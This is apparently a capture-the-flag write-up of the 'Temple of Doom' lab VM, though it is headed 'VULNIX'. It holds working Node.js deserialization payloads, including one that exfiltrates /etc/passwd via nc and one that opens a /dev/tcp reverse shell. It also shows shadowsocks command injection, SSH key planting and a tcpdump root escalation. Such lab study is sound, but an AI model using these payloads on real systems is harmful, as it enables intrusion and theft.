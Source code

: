 # VULNIX

**URL: https://www.vulnhub.com/entry/temple-of-doom-1,243/**

### NMAP  
  
>Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-13 09:02 UTC  
>Nmap scan report for 192.168.111.3  
>Host is up (0.00044s latency).  
>Not shown: 998 closed ports  
>PORT    STATE SERVICE VERSION  
>22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)  
>| ssh-hostkey:   
>|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)  
>|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)  
>|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)  
>666/tcp open  http    Node.js Express framework  
>|_http-title: Site doesn't have a title (text/html; charset=utf-8).  
>MAC Address: 08:00:27:BB:24:1C (Oracle VirtualBox virtual NIC)  
>Device type: general purpose  
>Running: Linux 3.X|4.X  
>OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4  
>OS details: Linux 3.2 - 4.9  
>Network Distance: 1 hop  


### FIRST STEP: HTTP Cookie  

When we access the http service of the server we get the following message: "Under Construction, Come Back Later!". But, the second request throws an exception.
Reading the output of the error we know that there's something wrong with the unserialization of the cookie. If we decode the cookie we get something like:  

>{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires**\=\"\:**Friday, 13 Oct 2018 00:00:00 GMT"}  

We see that there's an error in the json format. When we correct this we get a "Hello Admin" message.  

Searching a bit, we find these document:  

https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf  

With this information, and playing with the output, we edit the exploit to make it work. In order to make it easier, we create a script to encode the requests:  

root@kali:~# cat cookie.py   

>import sys  
>import base64  
>  
>COOKIE='{"rce":"test","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires":"Friday, 13 Oct 2018 00:00:00 GMT","username":"_$$ND_FUNC$$_function (){ require(\'child_process\').exec(\'cat /etc/passwd | nc 192.168.111.4 8888\', function(error, stdout, stderr) { console.log(stdout) }); }()"}'  
>  
>print base64.b64encode(COOKIE)  


With this cookie, we make a request to the server:  

>root@kali:~# curl -H "Cookie: profile=$(python cookie.py)" "http://192.168.111.3:666/"  

And we get the content of /etc/passwd:  

root@kali:~# nc -nvlp 8888  
>listening on [any] 8888 ...  
>connect to [192.168.111.4] from (UNKNOWN) [192.168.111.3] 41624  
>root:x:0:0:root:/root:/bin/bash  
>...  
>nodeadmin:x:1001:1001::/home/nodeadmin:/bin/bash  
>fireman:x:1002:1002::/home/fireman:/bin/bash  

Now, let's get our reverse shell. With the following code:  
  
>"_$$ND_FUNC$$_function (){ require(\'child_process\').exec(\'/bin/bash -i >& /dev/tcp/192.168.111.4/8888 0>&1 \', function(error, stdout, stderr) { console.log(stdout) }); }()"  

We get our shell. But the first thing is getting an interactive shell, so let's exchange SSH keys and open a proper shell.  

root@kali:~# nc -nvlp 8888  
>listening on [any] 8888 ...  
>connect to [192.168.111.4] from (UNKNOWN) [192.168.111.3] 41628  
>bash: cannot set terminal process group (806): Inappropriate ioctl for device  
>bash: no job control in this shell  
>[nodeadmin@localhost ~]$   
>[nodeadmin@localhost ~]$ uname -a  
>Linux localhost.localdomain 4.16.3-301.fc28.x86_64 #1 SMP Mon Apr 23 21:59:58 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux  
>[nodeadmin@localhost ~]$ mkdir .ssh  
>[nodeadmin@localhost ~]$ chmod 700 .ssh  
>[nodeadmin@localhost ~]$ chmod 600 .ssh/authorized_keys  
>[nodeadmin@localhost ~]$ echo 'ssh-rsa AAAA...jf root@kali' > /home/nodeadmin/.ssh/authorized_keys  

Now we can login via SSH without being asked for the password.  

After trying harder, and harder... we look for stuff from the other user in the system until we find something interesting:  

[nodeadmin@localhost ~]$ grep -riI fireman /etc/  
>/etc/rc.d/rc.local:#su fireman -c /usr/local/bin/ss-manager  

We run "/usr/local/bin/ss-manager --help" and read that it's "shadowsocks-libev 3.1.0". Looking for info about this binary we find the following:  

https://www.x41-dsec.de/lab/advisories/x41-2017-010-shadowsocks-libev/  

There's a RCE vulnerability with this version. So after a lot of tests, we end up changing our crontab and adding the following line:  

[nodeadmin@localhost ~]$ crontab -l
>@reboot /bin/node /home/nodeadmin/.web/server.js &  
>**@reboot su fireman -c /usr/local/bin/ss-manager**  

We reboot the machine and find another port open, where it's running the ss-manager. So, we exploit this vulnerability to gain access as **fireman**:  

[nodeadmin@localhost ~]$ nc -u 127.0.0.1 8839  
>add: {"server_port":8003, "password":"test", "method":"||echo 'ssh-rsa AAAA...jf root@kali' > /home/fireman/.ssh/authorized_keys"}**ok**  

And we get an OK. So now, we can login with fireman through SSH. Let's explore this way. Quickly we find that fireman can execute some stuff as root:

[fireman@localhost ~]$ sudo -l  
>Matching Defaults entries for fireman on localhost:  
>    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1  
>    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT  
>    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL  
>    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",  
>    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
>  
>User fireman may run the following commands on localhost:  
>    (ALL) NOPASSWD: /sbin/iptables  
>    (ALL) NOPASSWD: /usr/bin/nmcli  
>    (ALL) NOPASSWD: /usr/sbin/tcpdump  


nmcli? Where have I heard that before? **CVE-2018-1111**. And judging by the iptables config, it makes sense that we have to disable it first to exploit this vulnerability.  

[fireman@localhost ~]$ sudo iptables -L  
>Chain INPUT (policy ACCEPT)  
>target     prot opt source               destination           
>DROP       udp  --  anywhere             anywhere             udp spt:bootps dpt:bootpc  
>  
>Chain FORWARD (policy ACCEPT)  
>target     prot opt source               destination           
>  
>Chain OUTPUT (policy ACCEPT)  
>target     prot opt source               destination    

Here is a demo:

https://twitter.com/Barknkilic/status/996470756283486209  

But, let's explore another way. Why tcpdump? Reading the man page, we see some interesing flags: "[ -z postrotate-command ] [ -Z user ]"  

Let's try this. Creating a small script to do the same as before:  

[fireman@localhost ~]$ cat RCE  
>#/bin/bash  
>echo 'ssh-rsa AAA...zdzjf root@kali' > /root/.ssh/authorized_keys  

And executing it after a 1 second of capture.   

[fireman@localhost ~]$ sudo tcpdump -i eth0 -G 1 -z ./RCE -Z root  

Bingo, that was one way. Now we can login as root and read the flag:  

root@kali:~# ssh -l root 192.168.111.3  
>Last failed login: Sat Jul 14 15:06:59 EDT 2018  
>There were 3 failed login attempts since the last successful login.  
>Last login: Thu Jun  7 23:14:57 2018 from 192.168.2.15  
>[root@localhost ~]# id  
>uid=0(root) gid=0(root) groups=0(root)  
>[root@localhost ~]# ls -lrth  
>total 4.0K  
>-rw-r--r-- 1 root root 2.0K Jun  7 23:16 flag.txt  
